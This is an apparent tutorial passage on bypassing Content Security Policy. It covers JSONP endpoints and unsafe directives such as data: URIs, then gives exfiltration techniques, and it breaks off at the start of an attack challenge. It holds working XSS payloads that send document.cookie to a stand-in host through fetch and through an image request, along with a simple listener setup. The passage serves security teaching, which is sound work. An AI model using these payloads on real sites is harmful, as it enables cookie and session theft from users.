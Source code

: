 ﻿Some sites may serve JSONP endpoints which call a JavaScript function in their response. If the callback function of these can be changed, they could be used to bypass the CSP and demonstrate a proof of concept, such as displaying an alert box or potentially even exfiltrating sensitive information from the client such as cookies or authentication tokens. A lot of popular websites serve JSONP endpoints, which can be usually used to bypass a security policy on a website that uses their services. The JSONBee repo lists a good amount of the currently available JSONP endpoints that can be used to bypass a website's security policy.

## Unsafe CSP configurations

Some sites may allow loading of resources from unsafe sources, for example by allowing data: URIs or using the 'unsafe-inline' source. For example, if a website allows loading scripts from data: URIs, you can simply bypass their policy by moving your payload to the src attribute of the script, like so: `<script src="data:application/javascript,alert(1)"></script>`


# ﻿Exfiltration

﻿To exfiltrate sensitive information, your client needs to connect to a webserver you control. For our purposes, we can use a free service such as Beeceptor to receive the information via the path of the request. If you have access to a paid service such as Burp Collaborator, you can use this instead.

If you prefer running a web server for exfiltration locally, you can set up a simple HTTP server using python by running python -m SimpleHTTPServer or python3 -m http.server.

If the website you're exploiting allows AJAX requests (via connect-src) to anywhere, you can create a fetch request to your server like so:

```
<script>fetch(`http://example.com/${document.cookie}`)</script>
```

When the script is triggered on the victim's machine, we'll see the cookies in our access log.

If you found an XSS vulnerability and bypassed CSP, but can't leak any information with it via XHR requests or fetch, the connect-src policy may be blocking your requests. This can be bypassed if the website you're exploiting doesn't have strict settings for directives such as image-src and media-src, which can be abused to leak information.

For example, if a website is blocking all of your XHR requests but allows images to be loaded from any location, you can abuse this with JavaScript to load a specially crafted URL that masquerades as an image, like so:
```
<script>(new Image()).src = `https://example.com/${encodeURIComponent(document.cookie)}`</script>
```

# Attack Challenge

**Note: I set up a simple python server for this task using `python3 -m http.server` and use CSP evaluator for every CSP**

# Task 1
